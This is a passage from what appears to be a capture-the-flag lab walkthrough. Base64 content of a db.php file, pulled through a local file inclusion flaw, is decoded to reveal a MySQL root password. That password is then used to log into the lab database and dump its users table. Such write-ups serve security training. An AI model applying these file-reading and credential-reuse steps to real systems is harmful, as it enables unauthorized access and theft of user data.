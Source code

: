 notice that from the LFI we got the content of the db.php file so let’s decode it

```bash
echo "PD9waHAgDQokc2VydmVybmFtZSA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIlN1cGVyU2VjdXJlTXlTUUxQYXNzdzByZDEzMzcuIjsNCg0KJGNvbm4gPSBteXNxbGlfY29ubmVjdCgkc2VydmVybmFtZSwgJHVzZXJuYW1lLCAkcGFzc3dvcmQpOw0KDQppZiAoISRjb25uKSB7DQogIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsNCn0NCmVjaG8gIkNvbm5lY3RlZCBzdWNjZXNzZnVsbHkiOw0KPz4=" | base64 -d
```

![image.png](../images/trusted%206.png)

and we got the mysql password so let’s try to connect to it

```bash
mysql -h 10.10.204.86 -u 'root' -p 
```

![image.png](../images/trusted%207.png)

and we logged in so let’s go and see the available tables

```bash
use news;
select * from users;
```

![image.png](../images/trusted%208.png)
